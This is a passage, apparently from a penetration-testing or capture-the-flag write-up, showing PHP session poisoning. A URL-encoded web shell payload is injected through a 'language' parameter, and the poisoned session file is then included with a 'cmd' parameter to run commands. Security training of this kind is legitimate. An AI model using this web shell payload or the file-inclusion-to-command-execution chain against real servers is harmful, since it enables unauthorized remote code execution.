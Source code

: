 ![Pasted image 20250218165244.png](../../../../IMAGES/Pasted%20image%2020250218165244.png)

We can see it changed, which means we are able to perform this action, let's change it to a webshell:

```
language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```

And check again using the `cmd` parameter:

```
/var/lib/php/sessions/sess_5lpvtk301qthsd578ihq05f63r&cmd=id
```
